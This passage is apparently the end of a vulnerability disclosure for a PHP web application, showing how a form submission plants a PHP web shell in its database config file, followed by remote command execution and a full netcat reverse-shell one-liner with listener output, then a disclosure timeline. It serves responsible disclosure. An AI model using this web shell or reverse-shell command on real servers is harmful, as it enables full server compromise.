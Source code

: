 After submitting the form, confirmation of the shell upload can be carried out by checking the content of the `/core/database/connect.php` file:

```shell_session
rastating@ubuntu:/var/www/html$ cat core/database/connect.php
<?php
// Connection parameters
$DatabaseServer = "10.2.0.10";
$DatabaseUser   = "shell";
$DatabasePass   = "";?><?=`$_GET[1]`?><?php //";
$DatabaseName   = "minecraft";

// Connecting to the database
$database = new mysqli($DatabaseServer, $DatabaseUser, $DatabasePass, $DatabaseName);

?>
```

#### Remote Code Execution
Once the shell has been successfully uploaded, remote code execution can now be utilised by passing system commands into the `1` parameter, as can be seen in the example output below:

```shell_session
rastating@mysql:~$ curl "http://10.2.0.4/core/database/connect.php?1=whoami%26pwd"
/var/www/html/core/database
www-data
rastating@mysql:~$
```

With the ability to execute system commands, a reverse shell can be acquired leading to a full server compromise:

```bash
curl "http://10.2.0.4/core/database/connect.php?1=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202>%261|nc%2010.2.0.10%208080%20>/tmp/f"
```

```shell_session
rastating@mysql:~$ nc -nvlp 8080
Listening on [0.0.0.0] (family 0, port 8080)
Connection from [10.2.0.4] port 8080 [tcp/*] accepted (family 2, sport 41960)
/bin/sh: 0: can't access tty; job control turned off
$ whoami && pwd
www-data
/var/www/html/core/database
$
```


## Timeline
* **2018-01-16**: Initial discovery
* **2018-01-17**: Vendor contacted
* **2018-01-17**: Vendor responded, implemented the fix and has prepared rollout with CodeCanyon and prepared an update for GitHub
* **2018-01-17**: CVE requested
* **2018-01-17**: Updates pushed to CodeCanyon and GitHub
* **2018-01-18**: Public disclosure

